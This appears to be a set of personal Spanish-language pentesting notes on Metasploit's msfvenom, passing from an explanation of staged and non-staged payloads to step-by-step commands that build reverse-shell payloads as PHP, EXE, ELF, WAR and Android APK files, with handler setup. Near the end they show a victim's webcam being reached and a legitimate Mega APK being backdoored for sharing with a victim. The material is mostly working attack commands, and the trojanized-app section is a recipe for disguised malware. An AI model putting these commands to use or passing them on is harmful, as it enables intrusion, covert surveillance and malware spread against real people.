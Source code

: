 Msfvenom es una herramienta de línea de comandos que forma parte del framework de pruebas de penetración Metasploit. Se utiliza para generar y personalizar payloads (cargas útiles) maliciosos que pueden ser utilizados en ataques de pruebas de penetración y en la explotación de vulnerabilidades en sistemas informáticos.

# TIPOS DE PAYLOADS
Hay dos tipos de payloads, los staged y los non-staged:

- **Payload Staged** --> El Payload Staged es un tipo de carga útil que se descompone en dos o más partes. La primera parte consiste en un fragmento de código que se envía al objetivo con el fin de establecer una conexión segura entre el atacante y la máquina objetivo. Una vez que se establece esta conexión, la segunda parte del payload, que es la verdadera carga útil del ataque, se envía. Este enfoque le da a los atacantes la capacidad de evadir medidas de seguridad adicionales, ya que la verdadera carga útil no se envía hasta que se establece una conexión segura.

- **Payload non-staged** --> Es un tipo de carga útil que se envía como una única entidad y no se divide en múltiples partes. En otras palabras, la carga útil completa se envía al objetivo en un solo paquete y se ejecuta inmediatamente después de ser recibida. Aunque este enfoque es más simple que el Payload Staged, es más fácilmente detectable por los sistemas de seguridad, ya que todo el código malicioso se envía de una sola vez, lo que puede hacer que sea más fácilmente identificado y bloqueado.

-------------------------------------

# Fichero PHP malicioso con msfvenom
Para generar un archivo de reverse shell en PHP utilizando msfvenom, puedes utilizar el siguiente comando:

```python
msfvenom -p php/reverse_php LHOST=<tu dirección IP> LPORT=<tu puerto> -f raw > reverse_shell.php
```

Una vez que hayas generado el archivo de reverse shell en PHP, puedes transferirlo a la máquina objetivo y ejecutarlo en un servidor web para establecer una conexión de reverse shell con la máquina atacante.

# Fichero EXE malicioso con msfvenom

Podemos también generar un payload para entablar una reverse shell en forma de meterpreter en metasploit desde una máquina windows a nuestra máquina atacante, generando el siguiente payload:
```python
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.20 LPORT=443 -f exe -o pwned.exe
```
![[Mis apuntes/ANEXOS/Pasted image 20230817140645.png]]
Una vez generado esto, tenemos que abrir el /multi/handler de metasploit seleccionando como payload el meterpreter:
```bash
set PAYLOAD windows/x64/meterpreter/reverse_tcp
```
![[Mis apuntes/ANEXOS/Pasted image 20230817140542.png]]
Y ahora desde la máquina víctima, ejecutamos el script creado anteriormente:
![[Mis apuntes/ANEXOS/Pasted image 20230817140608.png]]
Y recibimos sesión de meterpreter:
![[Mis apuntes/ANEXOS/Pasted image 20230817140625.png]]
Aunque también podemos crear un payload que no sea de meterpreter, sino para recibir una shell normal, haciéndolo de la misma forma:
```python
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```
# Fichero ELF malicioso con msfvenom

Los ficheros elf en linux se pueden asemejar a los exe de windows, por lo que haremos lo mismo de antes pero para linux:
```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.0.30 LPORT=443 -f elf -o pwned.elf
```
![[Mis apuntes/ANEXOS/Pasted image 20230818120343.png]]
Lo compartimos con la máquina víctima:
![[Mis apuntes/ANEXOS/Pasted image 20230818120411.png]]
Nos ponemos en la escucha con metasploit usando el payload de meterpreter para linux:
```bash
set PAYLOAD linux/x64/meterpreter/reverse_tcp
```
![[Mis apuntes/ANEXOS/Pasted image 20230818120441.png]]
Ejecutamos el archivo en la máquina víctima y recibimos la conexión:
![[Mis apuntes/ANEXOS/Pasted image 20230818120513.png]]

## Fichero WAR malicioso con msfvenom para hacking tomcat

Estamos ante un servidor tomcat, que por ejemplo se trata de la máquina [[MAQUINA DEPLOY]], donde dentro del puerto 8080 corre un servidor tomcat y se nos muestra que podemos subir un archivo WAR:
![[Pasted image 20240101185536.png]]
```bash
msfvenom -p java/shell_reverse_tcp LHOST=192.168.0.37 LPORT=443 -f war -o revshell.war
```
Lo creamos
![[Pasted image 20240101190014.png]]
Lo subimos y lo tenemos aquí dentro del servidor, donde hacemos clic:
![[Pasted image 20240101190609.png]]
Y recibimos la conexión:
![[Pasted image 20240101190633.png]]

-----------------------------------------

[[MAQUINA SECTALKS (Vulnerabilidad arbitrary file upload, php malicioso con msfvenom, y multi-handler de metasploit)]]

# CREAR APK MALICIOSA
Podemos también crear un payload dentro de un apk y establecer una sesión de meterpreter en metasploit, por tanto usaremos el siguiente comando:
```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.0.30 LPORT=443 > virus.apk
```
![[Mis apuntes/ANEXOS/Pasted image 20230913095619.png]]
Y ahora con metasploit estaremos en la escucha con el multi handler, además de establecer el payload correcto:
```bash
set payload android/meterpreter/reverse_tcp
```
![[Mis apuntes/ANEXOS/Pasted image 20230913095744.png]]
Si la ejecutamos desde un dispositivo android habremos recibido una sesión de meterpreter:
![[Mis apuntes/ANEXOS/Pasted image 20230913100126.png]]
Y podemos acceder a la webcam:
![[Mis apuntes/ANEXOS/Pasted image 20230913100232.png]]

# ESCONDER BACKDOOR EN APK LEGÍTIMA
Primero tenemos que instalar apktool en nuestro kali:
![[Mis apuntes/ANEXOS/Pasted image 20230915153411.png]]
Y también nos bajamos la última versión del apktool:
![[Mis apuntes/ANEXOS/Pasted image 20230915153511.png]]
Otorgamos permisos a los 2 archivos:
![[Mis apuntes/ANEXOS/Pasted image 20230915153651.png]]
Movemos los dos archivos al siguiente directorio:
![[Mis apuntes/ANEXOS/Pasted image 20230915154214.png]]
Y dentro del /usr/local/bin tenemos que renombrar el fichero .jar de esta forma:
![[Mis apuntes/ANEXOS/Pasted image 20230915153900.png]]
Y ahora si ejecutamos el apktool debería funcionar bien:
![[Mis apuntes/ANEXOS/Pasted image 20230915154546.png]]
Y ahora instalaremos estos 3 paquetes:
![[Mis apuntes/ANEXOS/Pasted image 20230915160559.png]]
Ahora el siguiente paso será descargar un apk legítima, por ejemplo la de mega:
![[Mis apuntes/ANEXOS/Pasted image 20230915124544.png]]
Y ahora una vez descargado el apk lo pasamos por msfvenom:
```bash
msfvenom -x mega.apk -p android/meterpreter/reverse_tcp LHOST=192.168.0.36 LPORT=443 -o mega_virus.apk
```
![[Mis apuntes/ANEXOS/Pasted image 20230915155153.png]]
Lo pasamos al dispositivo android y ahora con metasploit nos ponemos en la escucha:
![[Mis apuntes/ANEXOS/Pasted image 20230915155351.png]]

Nos compartimos el apk con la víctima y con metasploit nos ponemos en la escucha, poniendo este payload:
```bash
set payload android/meterpreter/reverse_tcp
```